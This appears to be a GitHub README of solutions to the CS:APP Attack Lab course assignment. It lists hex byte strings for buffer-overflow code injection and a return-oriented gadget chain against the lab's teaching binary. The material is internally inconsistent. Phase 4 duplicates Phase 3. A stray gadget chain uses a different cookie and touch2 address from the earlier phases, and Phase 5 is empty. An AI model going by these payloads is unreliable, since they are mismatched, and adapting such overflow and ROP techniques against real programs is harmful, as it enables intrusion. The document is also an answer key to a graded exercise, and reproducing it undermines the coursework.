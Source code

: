# Attack Lab
See assignment details at attacklab.pdf.  
See guide at https://github.com/magna25/Attack-Lab/.

## Phase 1 Solution
```
// 40 bytes
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
// address of touch1 (8 bytes)
74 16 40 00 00 00 00 00
```

## Phase 2 Solution
```
// injected code with total 40 bytes
48 c7 c7 1f 25 3c 37 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch2
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00 
```

## Phase 3 Solution
```
// injected code with total 40 bytes
48 c7 c7 50 17 68 55 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch3
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00
// cookie
33 37 33 63 32 35 31 66
```

## Phase 4 Solution
```
// injected code with total 40 bytes
48 c7 c7 50 17 68 55 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch3
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00
// cookie
33 37 33 63 32 35 31 66
```
/* fill the buffer for the first 40 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* end of buffer */
d5 18 40 00 00 00 00 00 /* gadget 1: popq %rax */
6b 79 4f 5a 00 00 00 00 /* value of the cookie */
e7 18 40 00 00 00 00 00 /* gadget 2: move %rax to %rdi */
68 17 40 00 00 00 00 00 /* address of touch2() */
## Phase 5 Solution
